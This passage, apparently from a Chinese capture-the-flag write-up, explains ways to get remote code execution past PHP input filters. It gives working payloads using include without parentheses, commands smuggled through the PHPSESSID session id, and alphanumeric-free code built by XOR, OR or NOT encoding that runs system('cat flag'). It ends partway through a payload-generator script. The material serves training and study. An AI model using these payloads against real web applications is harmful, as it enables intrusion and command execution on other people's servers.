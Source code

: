include()和require()函数类似，但include()包含的文件不存在时，抛出警告，而require()会产生错误。

include可以不需要空格和任何括号。

payload:

```php
?c=include$_GET[1]?>&1=system("cat flag");
```

### session绕过

在浏览器中修改PHPSESSID的值，然后读取此值，并执行。

以edge浏览器为例，应用程序>Cookie>右键添加一项，写入PHPSESSID的值。

![image-20220815211413950](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/202209091333974.png)

直接读取即可, payload:

```php
c=session_start();system(session_id());
```

使用范围：

PHP 5.5-7.1.9之间可以使用。

PHP 5.5以下及PHP7.1以上时，session_id只能是0-9，a-z，A-Z中的字符。

### 无字母数字RCE（php7

用不可见字符，采用异或、或、取反的方式构造出payload。

原理是，**在PHP7中**，可以使用('phpinfo')()这种方式执行函数。

payload示例如下：("system")("cat flag.php")

```
c=("%13%19%60%60%60%0d"|"%60%60%13%14%25%60")("%03%21%60%00%06%0c%21%27%28%60%60%10"|"%60%40%14%20%60%60%40%40%06%10%28%60")
```

贴一个自己写的脚本

```php
<?php

function generate_code($preg, $code, $mode)
{
    if ($mode === 3) {
        $result = "";
        for ($i = 0; $i <= strlen($code); $i++) {
            $t = $code[$i];
            $out = dechex(ord(~$t));
            if(strlen($out) === 1){
                $out = "0".$out;
            }
            $result = $result."%".$out;
        }
        echo "code: (~$result)";
        die();
    }

    $output1 = "";
    $output2 = "";
    for ($ii = 0; $ii < strlen($code); $ii++) {
        $i = $code[$ii]; // 别问这里变量命名怎么这么奇怪 问就是之前不小心写错了懒得改
        $flag = 0;
        for ($j = 0; $j <= 128; $j++) {
            if (preg_match($preg, chr($j))) {
```